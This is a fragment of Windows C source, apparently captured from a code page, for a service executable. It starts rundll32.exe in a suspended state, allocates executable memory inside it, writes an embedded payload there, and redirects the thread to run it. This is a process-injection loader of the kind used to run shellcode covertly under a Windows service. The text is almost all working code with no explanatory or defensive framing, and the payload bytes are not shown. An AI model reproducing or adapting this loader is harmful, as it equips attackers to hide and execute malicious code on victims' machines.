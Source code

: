 ```c

	ZeroMemory( &ss, sizeof(SERVICE_STATUS) );
	ZeroMemory( &si, sizeof(STARTUPINFO) );
	ZeroMemory( &pi, sizeof(PROCESS_INFORMATION) );

	si.cb = sizeof(STARTUPINFO);

	ss.dwServiceType = SERVICE_WIN32_SHARE_PROCESS;

	ss.dwCurrentState = SERVICE_START_PENDING;

	ss.dwControlsAccepted = SERVICE_ACCEPT_STOP|SERVICE_ACCEPT_SHUTDOWN;

	hStatus = RegisterServiceCtrlHandler( (LPCSTR)&cServiceName, (LPHANDLER_FUNCTION)ServiceHandler );
  
	if ( hStatus ) {
		ss.dwCurrentState = SERVICE_RUNNING;

		SetServiceStatus( hStatus, &ss );

		if( CreateProcess( NULL, "rundll32.exe", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi ) ) {
			Context.ContextFlags = CONTEXT_FULL;
		  
			GetThreadContext( pi.hThread, &Context );
		  
			lpPayload = VirtualAllocEx( pi.hProcess, NULL, PAYLOAD_SIZE, MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE );
			if( lpPayload ) {
				WriteProcessMemory( pi.hProcess, lpPayload, &bPayload, PAYLOAD_SIZE, NULL );
#ifdef _WIN64
				Context.Rip = (DWORD64)lpPayload;
#else
				Context.Eip = (DWORD)lpPayload;
#endif
				SetThreadContext( pi.hThread, &Context );
			}

			ResumeThread( pi.hThread );
			
			CloseHandle( pi.hThread );
		  
			CloseHandle( pi.hProcess );
		}
		
		ServiceHandler( SERVICE_CONTROL_STOP );
		
		ExitProcess( 0 );
	}
}

/*
 *
 */
int __stdcall WinMain( HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow ) {
	SERVICE_TABLE_ENTRY st[] = { 
        { (LPSTR)&cServiceName, (LPSERVICE_MAIN_FUNCTIONA)&ServiceMain }, 
        { NULL, NULL } 
    };
	return StartServiceCtrlDispatcher( (SERVICE_TABLE_ENTRY *)&st );
}
```